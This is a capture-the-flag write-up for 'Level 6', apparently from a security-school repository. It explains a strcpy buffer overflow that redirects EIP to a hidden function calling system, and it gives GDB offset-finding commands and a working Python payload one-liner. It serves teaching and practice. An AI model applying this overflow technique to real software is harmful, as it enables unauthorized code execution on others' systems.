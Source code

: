# LEVEL 6

## 💡 Explanation

In this level we have to:
1. Check the binary, as always! The main calls `strcpy` and then it calls the function `m`. Same as the in the level1, inside of the binary we can also find a function `n` which contains a call to `system` but it is not called on the main.
2. We are going to exploit the call to `strcpy` to place the address of the function `n` on the eip. It is a buffer overflow similar to the level1 but instead of exploiting a `gets` we will have to pass as an argument the string that is going to overflow.
3. To build the exploit we will have to find out what if the offset of the EIP and then plance the address of `n`: [RANDOM CHARS UNTIL EIP][ADDRESS N]

## 👾 Commands

To find the solution:
```
[GDB] pattern create 200 => Stopped reason: SIGSEGV || <ADRESS> in ?? ()
[GDB] patern offset <ADRESS> => Gives the offset of EIP
[GDB] disas n
```

To execute the solution:
- `/home/user/level6/level6 $(python -c 'print "A"*72 + "\x54\x84\x04\x08"')`

## 🔍 Resources

- [Function C - strcpy](https://koor.fr/C/cstring/strcpy.wp)
- [Exploring Buffer Overflows in C, Part Two: The Exploit](https://www.tallan.com/blog/2019/04/04/exploring-buffer-overflows-in-c-part-two-the-exploit/)
- [Buffer Overflow using strcpy()](https://shankaraman.wordpress.com/tag/how-to-exploit-strcpy/)
